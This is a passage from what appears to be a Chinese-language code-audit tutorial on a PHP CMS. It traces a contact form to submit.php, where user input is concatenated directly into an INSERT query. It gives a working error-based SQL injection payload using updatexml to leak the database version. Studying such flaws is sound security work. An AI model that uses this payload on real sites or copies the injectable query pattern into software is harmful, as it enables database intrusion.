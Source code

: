 ```plain
出现错误，在进行读files/submit.php代码，发现进行到的代码段
```

![1645194499726-1ea75e24-481e-4bd8-9de5-4c58fec94c29.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922650-361060339.png)

```plain
我们可以进行自己构造参数来访问，在post自己发送参数。但是这里不需要这样去访问，我们可以测试那个文件调用了这个files/submit.php文件。
访问127.0.0.1:8087/index.php?r=contact地址，一样也可以触发submit文件
查看files/contact.php文件，看提交的数据是给谁。
```

![1645194860478-fdd29922-ce2b-4720-9079-abc3a614cb69.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922700-2087665120.png)

```plain
那就意味着在这个文件提交的表单，会在files/submit.php文件中处理。
构造payload提交表单：'or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '
```

![1645195415945-8421d75b-0b1d-486d-954c-ec9b253e4e4f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922302-1433882834.png)

```plain
为什么会造成这种注入？

SQL语句执行代码：
$query = "INSERT INTO interaction (
type,
xs,
cid,
name,
mail,
url,
touxiang,
shebei,
ip,
content,
tz,
date
) VALUES (
'$type',
'$xs',
'$cid',
'$name',
'$mail',
'$url',
'$touxiang',
'$shebei',
'$ip',
'$content',
'$tz',
now()
)";
@mysql_query($query) or die('新增错误：'.mysql_error());

提交的payload：'or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '
即：name='or updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1) or '

代入SQL语句中：
$query = "INSERT INTO interaction (
type,
xs,
cid,
name,
mail,
url,
touxiang,
```